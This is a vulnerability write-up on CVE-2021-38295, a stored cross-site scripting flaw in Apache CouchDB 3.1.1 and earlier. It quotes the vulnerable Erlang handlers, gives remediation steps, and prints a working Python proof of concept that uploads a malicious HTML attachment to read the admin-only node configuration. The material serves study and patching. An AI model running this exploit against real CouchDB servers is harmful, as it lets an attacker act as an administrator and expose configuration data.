

# CVE-2021-38295 CWE-79 CouchDB XSS

## Vulnerability Background
- **Documentation**: Apache CouchDB is an open-source document-oriented database management system that stores data in JSON format. In CouchDB, **documents** are the basic units of data storage; each document is self-contained and contains a set of key-value pairs. The values of these key-value pairs can be simple data types like strings, numbers, or dates, or complex data types like arrays or nested JSON objects. Each document has a globally unique identifier (`_id`) and a revision number (`_rev`) used to identify documents and manage version control. Documents can include attachments, such as images, PDF files, or HTML files. These attachments can be uploaded and managed via CouchDB's RESTful API.
- **Process of Adding Attachments to Documents:**
  1. **Create a document:** First, create a document and assign it a unique `_id`. This can be done by sending a PUT request containing the content of the document.
  2. **Upload Attachments:** Once the document is successfully created, you can add attachments to it. This is achieved by sending PUT requests to specific paths in the document, containing attachment data and metadata (such as content types). For example, you can upload an HTML file as an attachment.

## Vulnerability Mechanism
In CouchDB, users can add attachments to documents, including HTML files. If a malicious user creates an HTML attachment in the database containing embedded JavaScript code and tricks CouchDB administrators into opening the attachment via a browser (for example, through the Fauxton management interface), the embedded JavaScript code will be executed in the administrator's secure context. This can lead attackers to perform operations as administrators, thereby adding or removing data from any database or making configuration changes.

## Vulnerability Location
1. In the **src\chttpd\src\chttpd_db.erl** file, lines **1425** and **1531**, two `db_attachment_req` functions with different parameters handle attachment GET, PUT, and DELETE requests. Neither function verifies the attachment content at all, nor does it have logic to filter or limit `Content-Type`; they simply receive attachment data and store it in the document. This means any type of file can be uploaded, including HTML files containing malicious JavaScript code. Below is the code for tracking the file processing section.

```erlang
db_attachment_req(#httpd{method='GET',mochi_req=MochiReq}=Req, Db, DocId, FileNameParts) ->
    % Handle GET requests and send attachment data
    % ...
    end;
    
db_attachment_req(#httpd{method=Method, user_ctx=Ctx}=Req, Db, DocId, FileNameParts)
        when (Method == 'PUT') or (Method == 'DELETE') ->
    % Handle PUT and DELETE requests, receive attachment data, update documents, and delete attachments
    FileName = validate_attachment_name(
                    mochiweb_util:join(
                        lists:map(fun binary_to_list/1,
                            FileNameParts),"/")),

    NewAtt = case Method of
        'DELETE' ->
            [];
        _ ->
            MimeType = case couch_httpd:header_value(Req,"Content-Type") of
                % We could throw an error here or guess by the FileName.
                % Currently, just giving it a default.
                undefined -> <<"application/octet-stream">>;
                CType -> list_to_binary(CType)
            end,
            Data = fabric:att_receiver(Req, chttpd:body_length(Req)),
            ContentLen = case couch_httpd:header_value(Req,"Content-Length") of
                undefined -> undefined;
                Length -> list_to_integer(Length)
            end,
            ContentEnc = string:to_lower(string:strip(
                couch_httpd:header_value(Req, "Content-Encoding", "identity")
            )),
            Encoding = case ContentEnc of
                "identity" ->
                    identity;
                "gzip" ->
                    gzip;
                _ ->
                    throw({
                        bad_ctype,
                        "Only gzip and identity content-encodings are supported"
                    })
            end,
            [couch_att:new([
                {name, FileName},
                {type, MimeType},
                {data, Data},
                {att_len, ContentLen},
                {md5, get_md5_header(Req)},
                {encoding, Encoding}
            ])]
    end,

    Doc = case extract_header_rev(Req, chttpd:qs_value(Req, "rev")) of
        missing_rev -> % make the new doc
            if Method =/= 'DELETE' -> ok; true ->
                % check for the existence of the doc to handle the 404 case.
                couch_doc_open(Db, DocId, nil, [])
            end,
            couch_db:validate_docid(Db, DocId),
            #doc{id=DocId};
        Rev ->
            case fabric:open_revs(Db, DocId, [Rev], [{user_ctx,Ctx}]) of
            {ok, [{ok, Doc0}]} ->
                chttpd_stats:incr_reads(),
                Doc0;
            {ok, [Error]} ->
                throw(Error);
            {error, Error} ->
                throw(Error)
            end
    end,

    #doc{atts=Atts} = Doc,
    DocEdited = Doc#doc{
        atts = NewAtt ++ [A || A <- Atts, couch_att:fetch(name, A) /= FileName]
    },
    W = chttpd:qs_value(Req, "w", integer_to_list(mem3:quorum(Db))),
    case fabric:update_doc(Db, DocEdited, [{user_ctx,Ctx}, {w,W}]) of
    {ok, UpdatedRev} ->
        chttpd_stats:incr_writes(),
        HttpCode = 201;
    {accepted, UpdatedRev} ->
        chttpd_stats:incr_writes(),
        HttpCode = 202
    end,
    erlang:put(mochiweb_request_recv, true),
    DbName = couch_db:name(Db),

    {Status, Headers} = case Method of
        'DELETE' ->
            {200, []};
        _ ->
            {HttpCode, [{"Location", absolute_uri(Req, [$/, DbName, $/, couch_util:url_encode(DocId), $/,
                couch_util:url_encode(FileName)])}]}
        end,
    send_json(Req,Status, Headers, {[
        {ok, true},
        {id, DocId},
        {rev, couch_doc:rev_to_str(UpdatedRev)}
    ]});
```

2. At line **87** of the **src\chttpd\src\chttpd_misc.erl file, `handle_utils_dir_req` function is used to handle requests to `/_utils/` paths, This path is usually used to provide CouchDB's web interface (such as Fauxton). This function calls `couch_httpd:serve_file` functions to handle file requests, including HTML files.

```erlang
handle_utils_dir_req(Req) ->
    handle_utils_dir_req(Req, get_docroot()).

handle_utils_dir_req(#httpd{method='GET'}=Req, DocumentRoot) ->
    "/" ++ UrlPath = chttpd:path(Req),
    case chttpd:partition(UrlPath) of
    {_ActionKey, "/", RelativePath} ->
        % GET /_utils/path or GET /_utils/
        CachingHeaders = [{"Cache-Control", "private, must-revalidate"}],
        EnableCsp = config:get("csp", "enable", "false"),
        Headers = maybe_add_csp_headers(CachingHeaders, EnableCsp),
        chttpd:serve_file(Req, RelativePath, DocumentRoot, Headers);
    {_ActionKey, "", _RelativePath} ->
        % GET /_utils
        RedirectPath = chttpd:path(Req) ++ "/",
        chttpd:send_redirect(Req, RedirectPath)
    end;
handle_utils_dir_req(Req, _) ->
    send_method_not_allowed(Req, "GET,HEAD").
```

3. In the **src\couch\src\couch_httpd.erl** file, line **506** `serve_file` function is used to handle file requests, including HTML files. The main responsibility of this function is to send the requested file back to the browser so it can render the file. The function itself does not directly render the HTML file; instead, it sends the file contents back to the browser. The browser decides how to render the file based on its MIME type and content. If the file is in HTML format, the browser will attempt to parse and render the HTML content, including executing the JavaScript code within it, without any checks or restrictions.

```erlang
serve_file(Req, RelativePath, DocumentRoot) ->
    serve_file(Req, RelativePath, DocumentRoot, []).

serve_file(Req0, RelativePath0, DocumentRoot0, ExtraHeaders) ->
    Headers0 = basic_headers(Req0, ExtraHeaders),
    {ok, {Req1, Code1, Headers1, RelativePath1, DocumentRoot1}} =
        chttpd_plugin:before_serve_file(
            Req0, 200, Headers0, RelativePath0, DocumentRoot0),
    log_request(Req1, Code1),
    #httpd{mochi_req = MochiReq} = Req1,
    {ok, MochiReq:serve_file(RelativePath1, DocumentRoot1, Headers1)}.
```

In summary, if an attacker uploads an HTML file and its Content-Type is set to text/html, the database will not filter or check its content. When other users access this attachment, it directly hands the HTML file to the browser for processing, which then uses the current user's identity information to execute the JavaScript code inside.

## Remediation
Upgrade Apache CouchDB to 3.1.2 or later. Until all nodes are upgraded, do not allow untrusted users to create HTML attachments or deprecated `_show`/`_list` functions, and do not open such content in an authenticated administrator browser.

Using the sandbox command of the Content Security Policy when serving attachments still allows rendering HTML content but prevents JavaScript execution

## Affected Versions
CouchDB <= 3.1.1

## Environment Setup
Start the Docker environment, couchdb version 3.1.1, administrator user admin, password password



## Vulnerability Reproduction
1. Access http://localhost:5984/_utils Use administrator login and click Create Database to create a new non-partitioned database testdb.


2. Run the POC code to see the URL of the output document and the URL of the attachment

```cmd
python CVE-2021-38295-POC.py localhost:5984 testdb admin:password
```


3. Access the attachment URL generated by the script. Since you have previously logged into the administrator account in the browser, you can directly see sensitive database configuration information (such as node configurations), indicating successful exploitation.


## PoC Analysis

```python
from urllib.request import Request, urlopen
import base64
import sys
import uuid
import json

if len(sys.argv) < 4:
    print('Usage: <host> <db> <user:pass>')
    sys.exit(1)

url = "http://" + sys.argv[1]
db = sys.argv[2]
creds = sys.argv[3]
encoded_creds = base64.b64encode(creds.encode('ascii'))

# create a document to host the payload if one wasn't specified
# Use uuid.uuid4() to generate a random document ID to ensure the uniqueness of the document. The document contains a field called foo, with the value bar
doc_id = uuid.uuid4()
document_payload = {
    "_id": f"evildoc-{doc_id}",
    "foo": "bar"
}

# Upload the document. If uploaded successfully, the document URL will be output
print("Creating document to host maclicious attachment...")
req = Request(f"{url}/{db}/evildoc{doc_id}", data=json.dumps(document_payload).encode('utf-8'), method='PUT')
req.add_header('Authorization', 'Basic %s' % encoded_creds.decode("ascii"))
req.add_header('Content-Type', 'application/json')
res = urlopen(req)
json = res.read().decode()
print(f"Created {url}/{db}/evildoc{doc_id}")

# Create a malicious HTML attachment containing a JavaScript script. The script's function is to obtain CouchDB's node configuration information (_node/_local/_config via fetch requests, and display the obtained configuration information in a formatted form on the page
payload = f"""

<script>
    const configUrl = "{url}/_node/_local/_config"

    fetch(configUrl)
        .then(res => res.json())
        .then(data => document.querySelector("#config_info").innerHTML = `<pre>${{JSON.stringify(data, null, 2)}}</pre>`)
</script>
<div id="config_info">
    fetching node config info that definitely only admins should be able to access...
</div>

"""

# Upload the attachment; if uploaded successfully, the URL will be output
print("Uploading malicious attachment...")
req = Request(f"{url}/{db}/evilattachment-{uuid.uuid4()}/attachment.html", data=payload.encode('utf-8'),
              headers={"Content-Type": "text/html"}, method='PUT')
req.add_header('Authorization', 'Basic %s' % encoded_creds.decode("ascii"))
res = urlopen(req)
json = res.read().decode()
headers = res.getheaders()
evil_doc_url = res.info()["location"]
print("Attachment URL: ")
print(evil_doc_url)
```

1. **Parameter Check:** The script first checks the command-line parameters to ensure the host address, database name, and username/password are provided.
2. **Construct the request URL and authentication information:** Based on the provided host address and database name, build the CouchDB URL. Usernames and passwords are encoded in Base64 for basic authentication in HTTP requests.
3. **Create a document to host malicious attachments:** Generate a unique document ID and build document data containing that ID. By sending a PUT request, this document is added to the database. The request header contains authentication information and content types.
4. **Construct malicious HTML attachment content:** Define an HTML string containing JavaScript code. This code accesses CouchDB's configuration URL via a fetch request and displays the returned data on an HTML page. This may expose the administrator's configuration information.
5. **Upload malicious attachment:** Generate another unique ID to create the URL for the malicious attachment. By sending a PUT request, an HTML attachment containing malicious JavaScript code is uploaded to the previously created document. The request header also includes authentication information and content types.
6. **Output Attachment URL:** The script outputs the URL of the uploaded malicious attachment. When the administrator accesses this URL, the embedded JavaScript code will be executed.

## References
[In Apache CouchDB, a malicious user with permission to... · CVE-2021-38295 · GitHub Advisory Database](https://github.com/advisories/GHSA-gr7p-9mx8-wr74)

[2.14. CVE-2021-38295: Apache CouchDB Privilege Escalation—Apache CouchDB® 3.4 Documentation --- 2.14. CVE-2021-38295: Apache CouchDB Privilege Escalation — Apache CouchDB® 3.4 Documentation](https://docs.couchdb.org/en/stable/cve/2021-38295.html)

[ProfessionallyEvil/CVE-2021-38295-PoC: A simple Python proof of concept for CVE-2021-38295.](https://github.com/ProfessionallyEvil/CVE-2021-38295-PoC)

[Digging Between the Couch Cushions - CouchDB CVE-2021-38295 --- Digging Between the Couch Cushions - CouchDB CVE-2021-38295](https://www.secureideas.com/blog/digging-between-the-couch-cushions)
